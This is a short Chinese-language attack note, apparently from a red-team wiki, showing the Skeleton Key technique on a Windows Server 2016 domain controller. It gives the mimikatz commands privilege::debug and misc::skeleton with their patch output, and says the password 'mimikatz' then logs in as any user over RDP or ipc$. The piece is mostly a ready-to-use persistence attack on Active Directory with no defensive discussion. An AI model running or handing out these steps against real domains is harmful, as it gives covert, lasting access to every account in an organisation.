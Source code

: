 在域管情况下，可以在目标域控的LSASS内存注入特定的密码，就可以使用所设置的密码以任何身份登录，而用户还可以使用之前正常的密码登录。

# 一、Skeleton Key攻击
域控：Windows 2016

```plain
C:\Users\Administrator.SEC\Desktop\x64>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK

mimikatz #

```

此后可以使用密码mimikatz以任何身份进行RDP登录或者ipc$连接

![](../images/0b078aed20d7b13733cd13a77422b2b8.png)